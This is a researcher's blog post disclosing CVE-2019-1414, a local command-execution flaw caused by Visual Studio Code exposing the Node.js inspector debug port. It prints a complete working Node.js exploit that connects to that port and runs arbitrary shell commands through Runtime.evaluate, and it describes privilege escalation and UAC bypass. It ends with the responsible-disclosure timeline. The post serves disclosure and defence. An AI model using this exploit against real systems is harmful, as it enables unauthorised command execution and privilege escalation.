



_**Nov 4, 2019**_

## CVE-2019-1414 — a Local Command Execution in Visual Studio Code

A couple of months ago I discovered by looking at the running processes of my VM that [Visual Studio Code](https://code.visualstudio.com/) was enabling by default the [Node.js debug port](https://nodejs.org/en/docs/guides/debugging-getting-started/). Let's analyze the security impact and the process followed to exploit the issue and achieve Command Execution in the context of the running Visual Studio Code instance.

<script id="asciicast-PeDRogrDXQLbVb0A7hbLiXlNk" src="https://asciinema.org/a/PeDRogrDXQLbVb0A7hbLiXlNk.js" async></script>

## Debugging Node.js

Before my career shift into security, I was working as Full Stack JavaScript Developer. As result, I was spending a lot of time writing Node.js code to build Web APIs and data processing scripts. When you have to debug a Node.js application, it's very handy to reuse the Chrome DevTools that we all know and love, since it lets to set breakpoints and it has code evaluation and interactive inspection with sourcemaps support! To enable developers to natively use the Chrome DevTools, they migrated from the legacy debug protocol to the newer [Inspector protocol](https://v8.dev/docs/inspector), that is based on the [WebSocket protocol](https://tools.ietf.org/html/rfc6455). When a Node.js instance is launched with the `--inspect` command line option, it exposes by default a debug port on `127.0.0.1:9229`. This debug port enables full access to the underline Node.js instance, including the ability to run arbitrary JavaScript code. It's also possibile to define a custom TCP port using the `--inspect=12345` option. We can connect to the port using Chrome by opening the URL `chrome://inspect` or programmatically by writing some code.

## Discovery

By looking _by chance_ at the running processes in my VM, I noticed that Visual Studio Code was normally started with the `--inspect=RANDOM_PORT` option, using a random TCP port at every execution.



A local attacker can exploit this port to execute arbitrary JavaScript code within the underline Node.js instance, ultimately achieving command execution on the system in the context of the Visual Studio Code instance. This can be used for horizontal and vertical lateral movements, including the following scenarios:

1. if Visual Studio code runs as Administrator, we can elevate our privileges to the highest level, i.e. `NT AUTHORITY\SYSTEM`
2. if Visual Studio Code runs as another user, we can achieve command execution as that user
3. if Visual Studio Code runs in High Integrity context, we can bypass any UAC setting and elevate from Low/Medium levels

## Exploitation

There are two main limitations to the exploitability, that are:

1. the debug port binds to `127.0.0.1`
2. a random TCP port is used every execution

Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a [DNS Rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the Same Origin Policy.

To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a `HTTP GET` request to `/json` URL and then connect to it using the WebSocket protocol.



I wrote a [simple Node.js script](https://github.com/phra/inspector-exploiter) to execute arbitrary commands by connecting to the debug port.

```javascript
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die(reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
  die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64(data) {
  return Buffer.from(data).toString('base64')
}

async function getWsLink() {
  const res = await fetch(`http://${IP}:${PORT}/json`)
  const data = await res.json()
  return data[0].webSocketDebuggerUrl
}

async function main() {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
  const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
  const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 4,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onclose = (event) => {
    if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```

Here you can see it in action:


## Responsible Disclosure

The issue was promptly reported to Microsoft by following a Responsible Disclosure approach.



The vulnerability was also [indipendently discovered](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944) by [Tavis Ormandy](https://twitter.com/taviso) of [Google Project Zero](https://googleprojectzero.blogspot.com/).

[CVE-2019-1414](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-1414) was assigned to the reported issue.

## Timeline

- 31/08/2019: Issue reported to MSRC
- 03/09/2019: Issue acknowledged (case #53814)
- 11/10/2019: Google Project Zero public disclosure
- 17/10/2019: CVE-2019-1414 Advisory released

[back](../)
